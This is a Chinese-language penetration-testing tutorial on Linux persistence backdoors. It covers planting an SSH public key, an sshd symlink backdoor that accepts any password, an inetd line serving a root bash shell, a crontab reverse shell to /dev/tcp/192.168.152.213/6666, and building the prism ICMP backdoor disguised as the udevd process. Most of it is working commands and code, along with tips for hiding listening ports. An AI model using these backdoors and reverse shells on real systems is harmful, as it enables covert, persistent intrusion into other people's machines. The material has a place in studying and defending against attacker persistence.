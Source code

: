 ```yaml
---
title: Linux权限维持
index: true
icon: l
isOriginal : true
date: 2023-09-01
order: 1
category:
  - 渗透测试
tag:
  - 渗透测试
  - Linux权限维持
---
```


## ssh公钥免密后门

### 公钥私钥原理概述

公钥和私钥同时生成，**公钥用于加密，私钥用于解密**。公钥可以有很多人持有，但是私钥只能自己持有，在ssh服务中，将客户端生成的ssh公钥写到目标服务器的 ~/.ssh/authorized keys中,之后客户端利用私钥完成认证即可登录 <span data-type="text" style="color: var(--b3-font-color8);">该后门比较容易被发现(查看/root/.ssh/有几个公钥)。</span>

★ ssh连接，对方开启ssh需要对方密码才可登录，但如果写入公钥，不用密码就可以登录。

### ssh公钥免密实现步骤

生成公钥/私钥对——>  公钥复制到目标机中——>  更改authorized_keys的权限为 600  ——>  登录目标机

1. 在攻击机上生成公钥/私钥对   在中途会让输入密钥对的密码，由于需要实现免密登录，<span data-type="text" style="color: var(--b3-font-color8);">所以3次回车跳过即可</span>

    ```python
    ssh-keygen -t rsa
    ```

    ​![image](assets/image-20241031142229-wn8tc7z.png)​
2. 将攻击机 .ssh 目录下的 id_rsa.pub 复制到目标服务器的 /root/.ssh/authorized keys 文件里

    ```python
    scp ~/.ssh/id_rsa.pub root@192.168.72.56:/root/.ssh/authorized_keys 
    ```

    ​![image](assets/image-20241031142615-x27vhc3.png)​
3. 在目标服务器中，将authorized keys的权限改为600

    ​![image](assets/image-20241031142905-pkhvghv.png)​
4. 尝试是否可以不使用密码就登录到目标服务器

    ​![image](assets/image-20241031143100-72e611w.png)​

## ssh软连接后门

### ssh软连接后门原理

sshd服务<span data-type="text" style="color: var(--b3-font-color8);">启用PAM认证机制</span>，在/etc/ssh/sshd\_config文件中，设置UsePAM 为yes。如果不启用PAM，系统严格验证用户密码，不能建立后门。

在/etc/pam.d/目录下，对应文件里包含"auth sufficient pam\_rootok.so"配置，<span data-type="text" style="color: var(--b3-font-color8);">只要PAM配置文件中包含此配置即可SSH任意密码登录</span>。

对比一下/etc/pam.d/sshd配置文件和/etc/pam.d/su配置文件，不难发现，前者没有包含如上配置，而后者包含该配置。

直接启动/usr/sbin/sshd,默认使用/etc/pam.d/sshd的pam配置文件，因而不能建立任意密码登录的后门。

而通过软链接的方式，实质上PAM认证是通过软链接的文件名（如：/tmp/su,/home/su），在/etc/pam.d/目录下寻找对应的PAM配置文件(如：/etc/pam.d/su)。

### ssh软连接后门制作

1. 创建软连接  设置监听端口号

    因为本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口进行伪装。

    ```python
    ln -sf /usr/sbin/sshd /tmp/su 
    /tmp/su -oPort=8888
    ```

    ​![image](assets/image-20241031154509-wyl56k4.png)​
2. 尝试使用ssh连接目标服务器，使用<span data-type="text" style="color: var(--b3-font-color8);">任意密码</span>都可以登录 。

    ```python
    ssh root@192.168.72.56 -p 8080
    ```

    ​![image](assets/image-20241031154313-cyj5o3l.png)​

## inetd/xinetd 后门

监听外部网络请求(socket)的系统守护进程，当 inetd 接收到一个外部请求后,会根据这个请求到自己的配置文件中去找到实际处理它的程序再把接收到的socket交给那个程序处理

<span data-type="text" style="color: var(--b3-font-color8);">inetd，也叫作“超级服务器”，就是监视一些网络请求的守护进程，其根据网络请求来调用相应的服务进程来处理连接请求。</span>

inetd.conf则是inetd的配置文件。inetd.conf文件告诉inetd监听哪些网络端口，为每个端口启动哪个服务。

位置是/etc/inetd.conf 配置格式

```python
 [service_name] [sock_type] [proto] [flags] [user] [server_path] [args]
#[服务名称][协议(tcp或udp)] [标 志(wait或 nowait)][属主][真实服务程序全路径][真实服务程序名称及参数]
```

1. inetd.conf配置  如果配置打开没有，就说明没有这服务，没有就不能使用，也不能在对方机子下载。

    ```python
    vi /etc/inetd.conf
    daytime stream tcp nowait root /bin/bash bash -i   #插入此行
    ```

    ​![image](assets/image-20241031162020-j50ymxj.png)​

2. 启动服务​![image](assets/image-20241031163049-z5upwdy.png)​
3. 在攻击机直接访问进入root    <span data-type="text" style="color: var(--b3-font-color8);">端口默认为13</span>

    ```python
    nc targetIP 13 
    ```

    ![image](assets/image-20241031163023-kt3z806.png)​

## Crontab 计划任务后门

Crontab 命令被用来提交和管理用户的需要周期性执行的任务,与windows下的计划任务类似

当安装完成操作系统后，默认会安装此服务工具,并且会自动启动 crond 进程，<span data-type="text" style="color: var(--b3-font-color8);">crond 进程每分钟会定期检查是否有要执行的任务</span>，如果有要执行的任务，则自动执行该任务.

相关命令

```python
crontab [-u user]-e      # 编辑某个用户的crontab文件内容 
crontab [-u user]-|      # 显示某个用户的crontab文件内容 
crontab [-u user]-[i]r   #从/var/spool/cron目录中删除某个用户的crontab文件,-i参数指定在删除用 户的crontab文件时是否有确认提示
```

1. 在目标机中设置计划任务   设置每分钟进行一次端口反弹

    ```python
    crontab -e

    */1 * * * * bash -i >& /dev/tcp/192.168.152.213/6666 0>&1
    ```

    ​![image](assets/image-20241031151955-a4qx1nu.png)​
2. 在攻击机中进行监听

    ​![image](assets/image-20241031152026-2xpmy6x.png)​

    ## prism后门

  项目地址 : [https://github.com/andreafabrizi/prism](https://github.com/andreafabrizi/prism)

   是Linux下的ICMP反弹后门工具，使用时将会在<span data-type="text" style="color: var(--b3-font-color8);">后台等待特定的主机/端口连接信息的ICMP数据包</span>  主动监听连接

1. 克隆到攻击机
2. 配置prism.c文件，修改宏定义部分

    ```python
    40 #ifdef STATIC
    41 # define REVERSE_HOST     "10.0.0.1"  //连接到主控机的IP地址
    42 # define REVERSE_PORT     19832   //连接到主控机的端口号
    43 # define RESPAWN_DELAY    15  //后门机尝试连接的空闲时间间隔
    44 #else
    45 # define ICMP_PACKET_SIZE 1024  //ICMP数据包的大小
    46 # define ICMP_KEY         "linger"  //连接的密码
    47 #endif
    48
    49 #define VERSION          "0.5"   //版本信息
    50 #define MOTD             "PRISM v"VERSION" started\n\n# "  //后门机连接时显示的消息
    51 #define SHELL            "/bin/sh"  //shell执行的位置
    52 #define PROCESS_NAME     "udevd"   //创建的进程名称
    ```

    ​![image](assets/image-20241031175330-x20v5fg.png)​
3. 编译 prism.c 文件  <span data-type="text" style="color: var(--b3-font-color8);"> 为了防止环境问题，可以上传到靶机再编译。</span>

    ```python
    gcc -DDETACH -Wall -s -o prism prism.c
    ```

    ​![image](assets/image-20241031164048-mszbixj.png)​
4. 编译完成后，可以查看 prism后门的配置信息

    ```python
    ./prism Inf0    # I大写  0
    ```

    ​![image](assets/image-20241031164233-944f79q.png)​
5. ```python
    scp 【本地要上传文件地址】  [用户名]@[ip地址]：远程地址
    ```

    ​![image](assets/image-20241031165331-ehigiv6.png)​
6. 上传到靶机之后--需要启动才能成功

    ```python
    ./prism
    ```

7. 在攻击机使用sendPacket.py脚本发送包到后门主机激活，本地监听相关端口等待后门主机反弹连接

    ```python
    nc -lvvp 19832    #监听的端口要和prism里配置的一致  
    python2 ./sendPacket.py 192.168.72.56 p4ssw0rd 192.168.72.36 19832    # 被攻击IP地址 连接密码 攻击者IP地址 回连端口
    ```

​![image](assets/image-20241031183210-yyk386b.png)​

注意：

1. 被攻击端需要启动后门  ./prism  才能成功
2. 最后一步先监听再发送请求包

‍
